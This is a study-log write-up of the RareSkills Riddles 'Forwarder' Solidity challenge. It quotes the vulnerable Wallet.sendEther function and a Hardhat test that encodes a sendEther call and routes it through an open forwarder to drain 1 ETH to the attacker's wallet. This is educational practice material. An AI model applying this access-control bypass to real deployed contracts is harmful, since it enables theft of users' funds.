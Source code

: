 ## Day 13: Business logic errors (and ABI encoding Prerequisite)

### RareSkills Riddles: Forwarder

The objective of this attack is to get the attacker's wallet to be near 1 Eth in value.  This appears to be a test of using call() and delegatecall().  The Wallet's sendEther function expects to be called by the Forwarder contract.  

```Java
    function sendEther(address destination, uint256 amount) public {
        require(msg.sender == forwarder, "sender must be forwarder contract");
        (bool success, ) = destination.call{value: amount}("");
        require(success, "failed");
    }
```

The Hardhat test code to make this call is given below.  The hardest part was encoding in JavaScript.  

```Javascript
    it("conduct your attack here", async function () {
      // forwarder contract needs to call functionCall(walletContract.address, bytes)
      // set up abi.encodeWithSignature in JS
      let ABI = ["constructor(address _forwarder)",
        "function sendEther(address destination, uint256 amount)",];
      let iface = new ethers.utils.Interface(ABI);
      let encodedShit = iface.encodeFunctionData("sendEther", [attackerWallet.address, ethers.utils.parseEther("1")]);

      await forwarderContract.connect(attackerWallet).functionCall(walletContract.address, encodedShit);
    });
```

The code above simply has the forwarderContract forward the ```sendEther()``` call to the Wall contract.  


### RareSkills Riddles: Assign Votes
